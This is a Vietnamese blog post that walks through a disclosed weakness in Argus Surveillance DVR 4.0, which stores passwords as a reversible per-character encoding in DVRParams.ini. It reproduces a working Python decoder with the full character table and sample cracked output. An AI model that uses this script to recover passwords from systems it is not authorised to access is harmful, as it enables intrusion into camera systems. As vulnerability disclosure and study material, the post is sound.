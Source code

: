 ```yaml
---
title: Bẻ khóa mật khẩu ứng dụng giám sát camera Argus
date: 19/7/2021
layout: single
header:
  teaser: /assets/images/crack.jpg
---
```

## Mô Tả 
Trong một lần gần đây nhất, tôi đã xem `Argus Surveillance DVR 4.0` đang sử dụng mã hóa yếu cho mật khẩu.

+ Phiên bản:  Argus Surveillance DVR 4.0
+ Tác giả: Salman Asad (@deathflash1411)
+ Thử nghiệm: Windows 7 x86 (Build 7601) & Windows 10

## Khai thác  
Argus Surveillance DVR 4.0 đang lưu trữ cấu hình trong một tệp có tên `DVRParams.ini`nằm trong
 `C:\ProgramData\PY_Software\Argus Surveillance DVR`


![location](https://i.imgur.com/KYcjQOM.png)

Đã tạo một tài khoản thử nghiệm với tên người dùng `test` và mật khẩu `test`

![users](https://i.imgur.com/cbwtBsN.png)

Cấu hình đang lưu trữ mật khẩu của người dùng dưới dạng băm


![hash](https://i.imgur.com/d1PnFsd.png)

Một điều thú vị  là bốn ký tự đầu tiên và bốn ký tự cuối cùng trong mã băm giống nhau `E03B` vì mật khẩu của tôi đã được kiểm tra trong đó ký tự đầu tiên và ký tự cuối cùng giống nhau` t`

Điều này xác nhận rằng `t = E03B`, tôi đã giả định rằng mỗi ký tự trong mật khẩu có 4 ký tự trong hàm băm 34

![test](https://i.imgur.com/cZhNqwc.png)

Thật thú vị, hãy đổi mật khẩu thành `1234567890` (10 ký tự)

![change_pass](https://i.imgur.com/trhdvQE.png)

Đây là mật khẩu băm mới trong `DVRParams.ini`

![new_pass](https://i.imgur.com/NM50Tbq.png)

Giả định của tôi là đúng vì hàm băm mật khẩu dài chính xác 40 ký tự (10 * 4) 46

Tương tự, tác giả  đã thay đổi mật khẩu thành `abc ... xyz` và` ABC ... XYZ` và ghi chú lại các giá trị cho từng ký tự

Dựa trên những phát hiện ở trên, tác giả  đã viết một đoạn mã đơn giản để giải mã hàm băm mật khẩu 50

Mã khai thác: [exploits/50130](https://www.exploit-db.com/exploits/50130)

```python
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
    print("[!] Error, check your password hash")
    exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
    split.append(pass_hash[index : index + n])

for key in split:
    if key in characters.keys():
        print("[+] " + key + ":" + characters[key])
    else:
        print("[-] " + key + ":Unknown")

```
```powershell
#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] 418D:d
[+] B740:e
[+] F641:a
[+] E03B:t
[+] 956B:h
[+] E1D0:f
[+] 3F7E:l
[+] F641:a
[+] 9083:s
[+] 956B:h
[+] ECB4:1
[+] 53D1:4
[+] ECB4:1
[+] ECB4:1

```

Lưu ý: thay thế giá trị của `pass_hash`trong tập lệnh bằng mã băm mật khẩu bạn lấy được từ `DVRParams.in`

## Cảm Ơn :D



